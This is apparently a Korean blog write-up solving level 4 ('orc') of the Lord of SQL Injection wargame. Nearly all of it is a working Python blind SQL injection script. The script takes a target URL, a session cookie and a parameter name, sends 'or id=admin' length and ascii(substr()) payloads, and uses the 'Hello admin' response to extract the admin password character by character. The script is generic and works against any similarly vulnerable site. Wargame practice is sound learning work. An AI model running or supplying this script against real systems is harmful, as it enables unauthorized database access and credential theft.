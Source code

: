 ```yaml
---
title: LOS - 4번 orc
category: [Wargame, Lord of SQL Injection]
---
```


# [04] orc

## 풀이

```python
import requests

# 길이 확인
def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' or id=\"admin\" and length({param_name})={num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" in res.text):
            return num

# 문자열 찾기
def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' or id=\"admin\" and ascii(substr({param_name},{len},1))={ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                # print(f"{len}번째 문자:{chr(ran)}")
                ans+=chr(ran)
                break
    return ans

# 실행 순서
if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    param_name=input("파라미터의 이름을 알려주세요:")
    
    length=check_length(url, cookie, param_name)
    print(f"👏 {param_name}의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, param_name, length)
    print(f"👏 {param_name}의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F9Szay%2Fbtrm0qQmnZc%2FSUeVVIMRxFTgmSzVhI52o1%2Fimg.png">

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fdk9Qyb%2FbtrmXRVXq7F%2FhnPyYulfQxIbIkWuqczJz0%2Fimg.png">